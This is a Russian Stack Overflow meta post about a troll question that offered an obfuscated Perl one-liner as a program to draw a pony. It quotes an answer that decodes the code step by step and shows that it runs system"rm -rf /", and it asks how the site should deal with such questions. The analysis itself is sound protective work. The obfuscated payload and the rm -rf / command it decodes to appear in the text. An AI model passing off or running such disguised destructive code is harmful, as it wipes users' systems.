 ﻿---
title: "Ты троянская пони, троянская пони! ✨&#127769; (Как защититься от вопросов с вредоносным кодом?)"
se.owner.user_id: 337540
se.owner.display_name: "Victor VosMottor thanks Monica"
se.owner.link: "https://ru.meta.stackoverflow.com/users/337540/victor-vosmottor-thanks-monica"
se.link: "https://ru.meta.stackoverflow.com/questions/10560/%d0%a2%d1%8b-%d1%82%d1%80%d0%be%d1%8f%d0%bd%d1%81%d0%ba%d0%b0%d1%8f-%d0%bf%d0%be%d0%bd%d0%b8-%d1%82%d1%80%d0%be%d1%8f%d0%bd%d1%81%d0%ba%d0%b0%d1%8f-%d0%bf%d0%be%d0%bd%d0%b8-%d0%9a%d0%b0%d0%ba-%d0%b7%d0%b0%d1%89%d0%b8%d1%82%d0%b8%d1%82%d1%8c%d1%81%d1%8f-%d0%be%d1%82-%d0%b2%d0%be%d0%bf%d1%80%d0%be%d1%81%d0%be%d0%b2-%d1%81-%d0%b2%d1%80%d0%b5%d0%b4%d0%be%d0%bd%d0%be%d1%81%d0%bd%d1%8b%d0%bc"
se.question_id: 10560
se.post_type: question
se.score: 42
---
<h3>Вступление.</h3>
<p>Делая вчера очередь проверок, я наткнулся на вопрос заданный только вчера, содержащий код, но заминусованный капитально: -14 (на текущий момент -16). Думаю, что-то это слишком много, ну если обычно задают плохой вопрос (е.г. домашку, перевод, по-английски и т.д.), то если он недавний, то число даунвоутов где-то ∈ range(-2, -7). Я открыл вопрос и смотрю комментарии и ответ...</p>
<h3>Продолжение</h3>
<blockquote>
предлагаю удалить текст вопроса. – KoVadim 2 дня назад
5
<p>Я голосую за закрытие этого вопроса, потому что вопрос содержит вредоносный код в завуалированном виде. – aleksandr barakin 2 дня назад</p>
<p>Я просто хочу вывести красивого пони в терминале. Ничего вредоносного – Сергей Валерьевич 2 дня назад</p>
<p>пони выводятся по apt moo – KoVadim 2 дня назад</p>
<p>@aleksandrbarakin, может просто в ответе разобрать почему код вредоносный? :-) – Grundy 2 дня назад</p>
<p>внизу уже разобрали – KoVadim 2 дня назад</p>
<p>@KoVadim, я где-то видел именно по пунктам разбор, типа как эта строка преобразуется в аналог rm rf :) – Grundy 2 дня назад</p>
<p>что то модераторы не идут – KoVadim 2 дня назад</p>
<p>кстати, ассоциация: stackoverflow.com/q/9591658/2881286 – Grundy 2 дня назад
2</p>
<p>@Grundy, добавил разбор. – Centrix 2 дня назад
3</p>
<p>@aleksandrbarakin хоть это и троллинг, но вопрос правил не нарушает сам по себе. А хороший ответ только приветствуется.</p>
</blockquote>
<p>Разбор в ответе:</p>
<blockquote>
+9
<p>Эта программа удаляет все директории, в том числе и корневую /.</p>
<p>А если подробнее то:</p>
<p><code>echo &quot;test... test... test...&quot;</code> выполнение этой команды не влияет на работу и добавлено, скорее всего, для усыпления бдительности. То, что происходит в остальном коде — совсем не очевидно из-за преднамеренно запутанного написания. В данной строчке записано всего три последовательно выполняемых команды. Запишем команду следующим образом:</p>
<pre><code>$? ? s:;s:s;;$?: : s;;=]=&gt;%-{&lt;-|}&lt;&amp;|`{; ;
y; -/:-@[-`{-};`-{/&quot; -; ;
s;;$_;see
</code></pre>
<p>Первая конструкция анализирует переменную <code>$?</code> — код возврата предыдущей команды. Так как перед выполнением этой конструкции дочерних процессов не создавалось, $? будет содержать 0, и выполнена будет вторая «ветка» — <code>s;;=]=&gt;%-{&lt;-|}&lt;&amp;|</code>{;<code>. Эта команда, в свою очередь, заменяет строку в переменной-аккумуляторе </code>$_<code>на</code>=]=&gt;%-{&lt;-|}&lt;&amp;|{` (первый символ после s устанавливает ограничитель параметров этого оператора, и хотя традиционно используются слэш / или |, для неясности в этой конструкции используется ограничитель ;).</p>
<p>Вторая команда транслирует содержимое «аккумулятора» по достаточно сложным правилам. В левой части указано четыре диапазона символов, в правой — один. Если раскрыть эти диапазоны, получим следующее соответствие:</p>
<pre><code> !&quot;#$%&amp;'()*+,-./:;&lt;=&gt;?@[\]^_`{|}
`abcdefghijklmnopqrstuvwxyz{/&quot;
</code></pre>
<ul>
<li></li>
</ul>
<p>В результате содержимое $_ принимает вид:</p>
<pre><code>system&quot;rm -rf /&quot;
</code></pre>
<p>Третья же команда дважды (как инструктирует флаг ee) «вычисляет» содержимое аккумулятора — вышеуказанную деструктивную команду — и пытается заменить пустую строку в аккумуляторе на результат вычисления.</p>
</blockquote>
Comments:
<blockquote>
<p>Это неправда. Она должна рисовать красивого пони – Сергей Валерьевич 23 июн в 14:42</p>
<p>Знаем мы ваших пони. – Centrix 23 июн в 14:43
11</p>
<p>Ты троянская пони, троянская пони! ✨🌙 – andreymal 23 июн в 15:05</p>
</blockquote>
<a href="https://ru.stackoverflow.com/questions/1144804/%d0%a7%d1%82%d0%be-%d0%b4%d0%b5%d0%bb%d0%b0%d0%b5%d1%82-%d0%b4%d0%b0%d0%bd%d0%bd%d1%8b%d0%b9-%d0%be%d0%b4%d0%bd%d0%be%d1%81%d1%82%d1%80%d0%be%d1%87%d0%bd%d0%b8%d0%ba-%d0%bd%d0%b0-perl">Link to question</a>
<hr>
<h1>Что я хочу обсудить.</h1>
<p>Такие вопросы к счастью редки. Но они несут очень большую опасность. Любой не знающий перл или невнимательный человек мог запустить этот код и...  <code>sudo rm -rf /</code></p>
<p>Я считал, что наше SOобщество полностью защищено от троллей, но вот это — наша брешь. В правилах такие вопросы не оговариваюстя. Я предлагаю обсудить это в комментариях, и в качестве ответов предложить решение этой проблемы — что делать с такими вопросами? Предупреждения в самом вопросе — мало!</p>
<p><strong>P.S.</strong> За название — спасибо @andreymal'y!</p>
